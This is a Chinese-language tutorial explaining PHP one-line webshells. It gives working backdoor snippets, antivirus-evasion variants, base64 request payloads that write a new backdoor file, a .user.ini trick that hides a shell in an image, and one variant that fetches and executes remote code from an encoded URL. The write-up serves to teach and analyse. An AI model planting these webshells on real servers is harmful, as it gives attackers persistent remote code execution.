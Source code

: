 # 常见php一句话webshell解析

> 我理解的 webshell 是在服务器上以 web server application \(比如apache,iis或者nginx\)的权限进行远程任意代码执行的工具。当然通过一些手段也可能可以进行提权。

## 最基础的 php webshell <a id="&#x6700;&#x57FA;&#x7840;&#x7684;-php-webshell"></a>

```php
	<?php eval($_POST[CMD]);?>
```

将 post 请求中的 CMD 参数直接执行。

```php
<?php eval($_GET[CMD]);?>
```

原理浅析：

1、在PHP脚本语言中，eval（code）的功能是将code组合成php指令，然后将指令执行。  
2、  
就相当于执行 echo phpinfo（）语句。

## 变形一 <a id="&#x53D8;&#x5F62;&#x4E00;"></a>

为了与各种静态分析检测的杀毒软件进行对抗，webshell的代码也在不断进行混淆和改进。

```php
	<?php $x=$_GET['z']; @eval("$x;");?>
```

一般的安全软件可能会将eval+GET或POST判定为后门程序，因此这种变形将eval和GET或者POST分开，能够绕过这种情况。

## 变形二 <a id="&#x53D8;&#x5F62;&#x4E8C;"></a>

接收方  
感觉这里并没有写对，应该是传入的两个参数都是base64加密的，经过解密后再执行，生成后门文件。

```php
<?php
$a=str_replace(x,"","axsxxsxexrxxt");$a($_POST["code"]);
?>
```

请求参数

```php
?code=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
```

还原出的命令

```php
assert(fputs(fopen('c.php',w),"<?php@eval($_POST[a]);?>"))
```

利用assert来执行命令，并且用字符串隐藏assert方法，并且利用它加上动态传入参数的方式构造后门。

## 变形三 <a id="&#x53D8;&#x5F62;&#x4E09;"></a>

```php
<?php
$_GET['a']($_GET['b']);
?>
```

请求参数

```php
?a=assert&b=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
```

完全利用动态参数传入的方式构造后门，将敏感函数和执行的命令动态传入，效果与变形二是一致的。

## 变形四 <a id="&#x53D8;&#x5F62;&#x56DB;"></a>

```php
($code = $_POST['code']) &&@preg_replace('/ad/e','@'.str_rot13('riny').'($code)', 'add')
```

改进的地方：  
首先，将eval函数用str\_rot13\(‘riny’\)隐藏。  
然后，利用 e 修饰符，在preg\_replace完成字符串替换后，使得引擎将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。

## 变形五 <a id="&#x53D8;&#x5F62;&#x4E94;"></a>

```php
$filename=$_GET['code']; include ($filename);
```

改进的地方：  
由于include方法可以直接编译任何格式的文件为php格式运行，因此可以上传一个txt格式的php文件，将真正的后门写在文本当中。

## 变形六 <a id="&#x53D8;&#x5F62;&#x516D;"></a>

```php
auto_prepend_file=code.gif
```

上传.user.ini，并且写入auto\_prepend\_file=code.gif  
将一句话隐藏在code.gif中，并且将它上传到同一目录下。

改进的地方：  
将一句话木马隐藏在图形文件中，并且利用用户配置文件将其自动加载到同目录的php文件下，使得所有正常php文件都毫不知情的中招。

## 变形七 <a id="&#x53D8;&#x5F62;&#x4E03;"></a>

```php
if(empty($_SESSION['api']))$_SESSION['api']=substr(file_get_contents(sprintf('%s?%s',pack("H*",'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067'),uniqid())),3649);
@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null);
```

改进的地方：  
第一，通过pack函数得到URL  
第二，利用file\_get\_contents获得make.jpg。  
第三，利用substr截取3649字节以后的内容。  
第四，利用gzuncompress方法将3649字节以后的内容解压出来。  
第五，用preg\_replace方法的e操作符将代码执行。  
还有很多后续操作……

## 后记 <a id="&#x540E;&#x8BB0;"></a>

以上为了试验操作的方便，采用的是Get方式获取PHP的执行代码，但实际上，由于URL长度的限制，一般采用Post的方式。由于PHP版本的不断更新，因此一些旧的方法可能已经不太好用，但是随着版本的更新，相信也会有更多越来越新奇的mm慢慢浮出水面，让我们拭目以待。

另外除了这些一句话以外，还有一些不错的大马，例如rc-shell等，以及github上大量的webshell仓库。

## 参考资料 <a id="&#x53C2;&#x8003;&#x8D44;&#x6599;"></a>

\[1\] [一句话木马初级篇：常见PHP后门解析 - ArkTeam](https://blkstone.github.io/2016/07/21/php-webshell/一句话木马初级篇：常见PHP后门解析)  
\[2\] [一款功能强大的Web shell工具RC-SHELL](http://bobao.360.cn/news/detail/3310.html)  
\[3\] [github webshell](https://github.com/tennc/webshell)

